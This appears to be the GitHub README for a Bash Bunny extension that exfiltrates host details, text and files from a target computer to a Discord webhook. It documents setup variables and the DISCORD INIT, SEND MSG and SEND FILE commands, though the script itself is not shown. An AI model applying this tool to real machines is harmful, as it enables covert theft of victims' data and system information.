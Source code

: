<div align="center">

# Discord Exfiltration

![Bash](https://img.shields.io/badge/Shell_Script-121011?style=for-the-badge&logo=gnu-bash&logoColor=white)
![Quack](https://img.shields.io/badge/Ducky_Script-121011?style=for-the-badge&logo=duck&logoColor=white)

A discord exfiltration extension

[Documentation](#documentation) • [Changelog](#changelog) • [Contributing](#contributing) • [License](#license)  . [Support](#support)


**This bashbunny extension provide exfiltration of text and files through discord webhook**
</div>


# Documentation

>To use this extension, you need to create a webhook on discord and get the webhook id and token
During your setup steps, you need to set the DISCORD_WEBHOOK_ID and DISCORD_WEBHOOK_TOKEN variables

```bash
DISCORD_WEBHOOK_ID="<DISCORD_WEBHOOK_ID>"
DISCORD_WEBHOOK_TOKEN="<DISCORD_WEBHOOK_TOKEN>"
```

### DISCORD INIT

Initialize the exfiltration session by posting an embed message on discord with host information
This command need ```$BB_HOST_OS, $BB_HOST_IP_V4, $BB_HOST_IP_V6, BB_HOST_IP_USER``` variables to be set (Set by default if you use my OSX extension)

<img width="300" alt="image" src="https://github.com/quentinlamamy/bashbunny/blob/23c6dc74f5e719e2f6fb067a96c493ca03947992/img/discord_embed.png?raw=true">

## DISCORD SEND MSG

Send a message to discord via webhook

```bash
DISCORD SEND MSG $yourMessage
```

## DISCORD SEND FILE

Send a file to discord via webhook
```bash
DISCORD SEND FILE $yourFilePath
```

# Changelog
v1.0 : 
* :tada: Release on 2023/07/31

# Contributing
A bug ? An idea of feature ? [Fill an issue on github](https://github.com/quentinlamamy/bashbunny/issues)

# License
<p xmlns:cc="http://creativecommons.org/ns#" xmlns:dct="http://purl.org/dc/terms/"><a property="dct:title" rel="cc:attributionURL" href="https://github.com/quentinlamamy/bashbunny/blob/main/extensions/discord/discord.sh">Bashbunny discord extension</a> by <a rel="cc:attributionURL dct:creator" property="cc:attributionName" href="https://github.com/quentinlamamy">Quentin Lamamy</a> is licensed under <a href="http://creativecommons.org/licenses/by-nc-sa/4.0/?ref=chooser-v1" target="_blank" rel="license noopener noreferrer" style="display:inline-block;">CC BY-NC-SA 4.0<img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/cc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/by.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/nc.svg?ref=chooser-v1"><img style="height:22px!important;margin-left:3px;vertical-align:text-bottom;" src="https://mirrors.creativecommons.org/presskit/icons/sa.svg?ref=chooser-v1"></a></p>

# Support
<a href="https://www.buymeacoffee.com/quentinlamamy" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
